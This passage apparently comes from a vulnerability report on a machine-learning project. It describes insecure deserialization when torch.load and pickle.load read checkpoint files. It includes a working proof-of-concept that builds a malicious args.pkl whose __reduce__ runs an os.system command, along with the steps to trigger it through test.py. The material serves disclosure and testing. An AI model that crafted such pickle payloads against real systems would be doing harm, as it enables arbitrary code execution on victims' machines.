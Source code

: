         ```
        Attacker crafts malicious checkpoint files (model-*.ckpt, optim-*.ckpt, args.pkl)
        -> Attacker replaces legitimate checkpoint files in the repository or distribution
        -> User downloads the project and potentially the malicious checkpoints (e.g., via `git lfs pull` for pretrained models) or uses a project that was already compromised.
        -> User runs train.py or test.py, which calls load_checkpoint
        -> load_checkpoint uses torch.load and pickle.load to load the malicious files
        -> Insecure deserialization in torch.load and pickle.load triggers arbitrary code execution on the user's machine.
        ```

- **Security Test Case:**
    1. **Setup:** Ensure you have the project environment set up as described in the README.md.
    2. **Malicious Payload Creation:** Create a malicious `args.pkl` file. You can use the following Python code to generate a malicious `args.pkl` file that executes `touch /tmp/pwned` when loaded:
        ```python
        import pickle
        import argparse
        import os

        class MaliciousArgs:
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned',))

        # Create dummy args object to mimic the structure of original args.pkl
        parser = argparse.ArgumentParser()
        parser.add_argument('--dummy_arg', type=str, default='dummy_value')
        args = parser.parse_args([])
        args.__dict__.update({'dummy_arg': 'dummy_value', 'malicious_payload': MaliciousArgs()})

        with open('args.pkl', 'wb') as f:
            pickle.dump(args, f)
        ```
    3. **Replace `args.pkl`:** Navigate to the checkpoints directory of a model (e.g., if you are using the pretrained models, it would be `checkpoints/MODEL_NAME`). Replace the existing `args.pkl` file with the malicious `args.pkl` file created in the previous step.
    4. **Execute `test.py`:** Run the `test.py` script using a pretrained model name. For example:
        ```bash
        python src/test.py --model_name MODEL_NAME --eval_split test --root DATASET_PATH --save_dir ../checkpoints
        ```
        Replace `MODEL_NAME` with the name of the pretrained model you are testing and `DATASET_PATH` with the path to your Recipe1M dataset.
    5. **Verify Exploitation:** Check if the file `/tmp/pwned` has been created. If the file exists, it indicates that the malicious payload in `args.pkl` was executed during the model loading process, confirming the insecure deserialization vulnerability.
    6. **Cleanup:** Remove the `/tmp/pwned` file after testing.

#### Vulnerability Name: Image Processing Vulnerability via PIL Library

